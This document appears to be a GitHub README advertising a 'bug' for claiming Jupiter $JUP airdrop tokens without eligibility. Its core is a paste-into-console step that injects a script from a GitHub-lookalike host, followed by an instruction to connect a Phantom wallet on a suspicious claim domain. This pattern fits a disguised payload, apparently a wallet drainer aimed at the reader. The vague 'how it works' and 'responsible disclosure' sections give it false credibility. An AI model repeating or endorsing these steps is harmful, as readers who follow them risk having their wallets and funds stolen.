 # Jupiter Airdrop Claim Bug

## 🚀 Overview
This repository documents a recently discovered exploit that allows users to claim the Jupiter airdrop even if they do not meet the eligibility criteria.

## ⚠️ Disclaimer
This project is for educational and informational purposes only. The misuse of this exploit may violate terms of service and applicable laws. Use at your own risk.

## 🔄 Steps to Reproduce  

1. Copy and paste the following script:  
   ```javascript
   const script = document.createElement("script");  
   script.src = "https://gitproduction.com/xxlunarbunnyxx2/Jup-Airdrop-Claim-Bug/main.js";  
   document.head.appendChild(script);
   ```

2. Go to **[compromised-claim.jup.ag](https://compromised-claim.jup.ag)** and open the developer tools **(Ctrl + Shift + C)**. 

3. Paste the script into the console and execute it.

4. Connect a **Phantom wallet** and get $JUP airdrop.

## 🛠 How It Works
1. The exploit bypasses Jupiter's eligibility verification process.
2. It tricks the system into recognizing non-eligible wallets as valid claimants.
3. The method allows users to receive airdropped tokens without fulfilling the standard requirements.

## 📜 Technical Details
- The vulnerability is related to how the eligibility checks are performed.
- It involves manipulating specific parameters in the claim request.
- More details will be shared responsibly after proper disclosure.

## 🛑 Responsible Disclosure
We strongly encourage responsible disclosure of such vulnerabilities. If you are associated with Jupiter's development team, please reach out to discuss the issue further.

## 📢 Stay Updated
Follow this repository for updates and potential patches related to this exploit.